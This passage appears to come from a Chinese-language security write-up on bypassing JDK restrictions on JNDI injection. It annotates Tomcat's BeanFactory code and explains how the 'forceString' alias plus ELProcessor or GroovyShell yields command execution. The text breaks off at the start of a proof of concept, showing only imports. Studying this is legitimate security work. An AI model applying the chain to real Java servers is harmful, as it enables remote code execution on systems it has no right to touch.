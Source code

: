 ```java  
    }  
    // 2. 初始化类实例  
    Object bean = beanClass.getConstructor().newInstance();  
  
    // 3. 根据 Reference 的属性查找 setter 方法的别名  
    RefAddr ra = ref.get(&#34;forceString&#34;);  
    String value = (String)ra.getContent();  
  
    // 4. 循环解析别名并保存到字典中  
    for (String param: value.split(&#34;,&#34;)) {  
        param = param.trim();  
        index = param.indexOf(&#39;=&#39;);  
        if (index &gt;= 0) {  
            setterName = param.substring(index &#43; 1).trim();  
            param = param.substring(0, index).trim();  
        } else {  
            setterName = &#34;set&#34; &#43;  
                param.substring(0, 1).toUpperCase(Locale.ENGLISH) &#43;  
                param.substring(1);  
        }  
        forced.put(param, beanClass.getMethod(setterName, paramTypes));  
    }  
  
    // 5. 解析所有属性，并根据别名去调用 setter 方法  
    Enumeration&lt;RefAddr&gt; e = ref.getAll();  
    while (e.hasMoreElements()) {  
        ra = e.nextElement();  
        String propName = ra.getType();  
        String value = (String)ra.getContent();  
        Object[] valueArray = new Object[1];  
        Method method = forced.get(propName);  
        if (method != null) {  
            valueArray[0] = value;  
            method.invoke(bean, valueArray);  
        }  
  
    }  
}  
```  
上面注释了关键的部分代码，可以通过在返回客户端的`Reference`对象的`forceString`字段指定`setter`方法的别名，并且后续初始化过程中进行调用。  
`forceString`的格式为`a=foo,bar`，以逗号分隔每个需要设置的属性，如果包含等号，则对应的 `setter` 方法为等号后的值 `foo`，如果不包含等号，则 `setter` 方法为默认值 `setBar`。  
在后续调用时，调用`setter`方法使用单个参数，且参数值为对应的属性对象`RefAddr`的值`getContent`。因此，实际上我们可以调用任意指定类的任意方法，并指定单个可控的参数。  
使用`newInstance`创建实例，所以只能调用无参构造，这就要求目标`class`得有无参构造方法，上面`forceString`可以给属性强制指定一个`setter`方法，参数为一个`String`类型，可以利用`javax.el.ELProcessor`作为目标`class`，利用`el`表达式执行命令。  
所以绕过流程就是，  
需要满足`ref.getFactoryClassLocation()` 为空，只需要在远程 `RMI` 服务器返回的 `Reference` 对象中不指定 `Factory` 的 `codebase`  
来到`NamingManager`，需要在攻击者本地`CLASSPATH`找到这个`Reference Factory`类并且在其中一块代码能执行`payload`，找到了`BeanFactory`  
`BeanFactory`使用`newInstance`创建实例，所以只能调用无参构造，这就要求目标 `class` 得有无参构造方法且有办法执行相关命令，于是找到`ELProcessor`和`GroovyShell`  
总结起来就是绕过了`ConfigurationException`，进入`NamingManager`，使用`BeanFactor`创建`ELProcessor`/`GroovyShell`无参实例，然后`BeanFactor`根据别名去调用方法（执行`ELProcessor`中的`eval`方法）  
Poc  
```java  
package Server;    
    
    
import com.sun.jndi.rmi.registry.ReferenceWrapper;    
import org.apache.naming.ResourceRef;    
    
import javax.naming.StringRefAddr;    
import java.rmi.registry.LocateRegistry;    
```